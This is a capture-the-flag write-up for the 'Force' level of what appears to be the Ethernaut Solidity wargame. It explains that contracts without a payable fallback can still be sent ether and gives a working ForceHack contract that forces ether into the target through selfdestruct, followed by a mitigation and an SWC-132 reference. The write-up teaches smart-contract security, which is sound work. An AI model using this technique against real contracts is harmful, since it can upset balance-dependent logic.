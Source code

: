 ```yaml
---
title: Level 7 - Force
slug: level-7
published: 05-17-2023
lastEdited:
---
```


## Objectives

1. Make the Force contract have a balance greater than 0.

## Vulnerabilities

### Expecting that a contract can't hold any ether

A contract that doesn't have a payable fallback function doesn't prevent that contract to have
a positive balance.

## Exploit

1. Write and deploy a simple hack contact like the following:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IForce {}

contract ForceHack {
    IForce target;

    constructor(address _targetAddress) payable {
        target = IForce(_targetAddress);
    }

    function kaboom() external {
        selfdestruct(payable(address(target)));
    }
}
```

2. Call the `kaboom` function to `selfdestruct` the ForceHack contract and send the balance to
   the Force contract.

## Suggested mitigation

1. Simply never rely on the contract having a 0 balance.

## Further reading

- SWC-132 - Unexpected ether balance <ExternalLink href={"https://swcregistry.io/docs/SWC-132"} />
